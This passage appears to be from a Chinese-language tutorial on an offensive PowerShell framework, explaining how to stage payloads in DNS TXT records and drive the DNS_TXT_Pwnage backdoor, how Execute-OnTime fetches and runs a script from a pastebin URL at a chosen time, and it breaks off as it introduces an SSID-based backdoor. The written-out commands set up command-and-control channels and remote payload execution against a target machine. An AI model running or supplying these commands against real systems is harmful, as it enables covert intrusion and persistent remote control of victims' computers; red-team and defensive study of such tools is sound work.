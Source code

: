 ```powershell
PS >Out-DnsTxt -DataToEncode path //path处是你想编码的内容的路径
```
之后，它会生成一个编码后的文件，如下图所示
![out-dnstxt](./img/framework/out-dns.jpg)
然后我们去添加对应的TXT记录就行了，encoded.txt文件中每一行为一条记录
添加完后我们还需要添加两条TXT记录，内容为start和stop
添加完成后，我们就可以利用DNS_TXT_Pwnage这个脚本了
执行方式：

```powershell
PS >DNS_TXT_Pwnage -startdomain start.test.com -cmdstring start -commanddomain command.test.com -psstring test -psdomain xxx.test.com -Subdomains 1 -StopString stop
```
具体参数的意思：
*  startdomain 会一直去检测我们指定域名的TXT记录，并把返回的记录与我们输入的cmdstring以及psstring进行比较
* cmdstring 是我们任意输入的字符串，如果startdomain与我们这里输入的cmdstring值相等则执行commanddomain命令
* commanddomain 创建的执行命令TXT记录的域名
* psstring 是我们任意输入的字符串，如果与我们这里输入的psstring值相等则执行psdomain脚本
* psdomain 是我们创建的执行脚本TXT记录的域名
* Subdomains 是执行脚本创建TXT记录的个数
* StopString 是任意输入的字符串，如果这里输入的字符串与startdomain中返回的记录相同将会停止执行我们的Payload
* Arguments 指定要执行的函数名
#### Execute-OnTime
执行方式：

```powershell
PS > Execute-OnTime -PayloadURL http://pastebin.com/raw.php?i=Zhyf8rwh -Arguments Get-Information -Time hh:mm -CheckURL http://pastebin.com/raw.php?i=Zhyf8rwh -StopString stoppayload
```
具体参数的意思：
* PayloadURL 指定我们脚本下载的地址
* Arguments 指定执行的函数名
* Time 参数可以设定脚本执行的时间（例如  -Time 23:21）
* CheckURL 参数会检测我们一个指定的URL内容是否存在StopString给出的字符串，如果发现了就停止执行
#### Gupt-Backdoor
Gupt-Backdoor这个脚本可以帮助我们通过无线SSID反弹后门和执行命令。
执行方式：
